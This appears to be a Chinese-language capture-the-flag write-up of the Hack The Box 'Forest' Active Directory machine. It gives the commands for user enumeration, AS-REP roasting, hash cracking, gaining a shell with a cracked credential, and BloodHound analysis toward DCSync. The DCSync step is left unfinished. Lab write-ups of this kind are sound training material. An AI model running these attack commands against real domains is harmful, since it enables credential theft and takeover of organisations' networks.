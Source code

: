 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting /滥用 WriteDACL / DCSync / Bloodhound
---
```


# ✔️ Forest

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA forest 10.129.154.107 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 把IP地址和域名写入/etc/hosts文件：

<figure><img src="../../.gitbook/assets/3 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 通过之前的Nmap扫描结果发现并没有Web应用的相关开放端口，所以直接尝试各种匿名登录，SMB可以登录成功但是无收获，RPC不可以无密码登录：

```bash
smbclient -N -L 10.129.154.107
rpcclient 10.129.154.107
```

* 使用enum4linux对目标进行枚举，发现了目标系统上的用户名及其用户信息、密码策略、域组成员信息：

```bash
enum4linux 10.129.154.107
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

* 将这些用户名收集起来，试试哪些是域内有效的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/7 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 31个用户名跑出来18个有效，再把这18个用户名汇总成一个users.txt文件：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

* 使用Impacket的脚本GetNPUsers.py尝试获取每个用户的哈希值：

```bash
./GetNPUsers.py 'htb.local/' -usersfile users.txt -format hashcat -outputfile hashes.txt -dc-ip 10.129.154.107
```

<figure><img src="../../.gitbook/assets/13 (10).png" alt=""><figcaption></figcaption></figure>

* 已找到了用户svc-alfresco 帐户的哈希值，将该哈希值保存为hashes.txt文件，然后查找该哈希对应的模式，hashcat暴力破解其明文密码：

```bash
hashcat -m 18200 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 至此，以获取到一个有效凭证：<mark style="color:red;">**svc-alfresco:s3rvice**</mark>
* 利用这个有效凭证和evil-winrm，尝试get shell：

```bash
evil-winrm -i htb.local -u svc-alfresco -p 's3rvice' 
```

* 成功登录，并找到了第一个flag：

<figure><img src="../../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (7).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 按惯例上传winPEAS进行信息枚举，但是没有什么特别的收获：

```bash
# evil-winrm:
upload /root/Documents/HTB-AD/forest/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* 上传sharphound进行信息收集，放入bloodhound中分析各个用户、组成员等之间的关系：

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1).png" alt=""><figcaption></figcaption></figure>

* 当前已控制的账户是svc-alfresco，查看最短到域管的路径发现，当前账户属于Service Accounts的成员，而Service Accounts又属于Privileged IT Accounts的成员，Privileged IT Accounts是Account Operators的成员，最后Account Operators的成员又是属于Exchange Windows Permissions的成员：

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 从bloodhound列举出的信息中可知Exchange Windows Permission在当前域中是有WriteDACL权限的，该权限可以允许用户修改对象的访问控制列表，这意味着拥有这个权限的账户可以自己赋予自己/其他账户DCSync同步权限。

{% hint style="info" %}
本例提权过程中，一种方式是赋予当前以控制的账户svc-alfrescoDCSync同步权限，还有一种是创建一个新的用户账户赋予它DCSync同步权限，已确定成功将相关账户加入到了Exchange Windows Permissions组，但是在用secretsdump提取域内用户账户的哈希密码时，两种均失败，暂不清楚原因。
{% endhint %}

*

{% hint style="info" %}
本例机器，在GET SHELL阶段常规的枚举尝试就有收获。提权过程太艰难了，以为是自己方向搞错了，看了网上提示后发现没有错，各种方式都尝试过了，还是一直报错，暂不清楚原因，后续再更新。本例Bloodhound分析过程没有以前的机器简单。

（本例中途重置过IP地址有变化，不影响其过程实现）
{% endhint %}
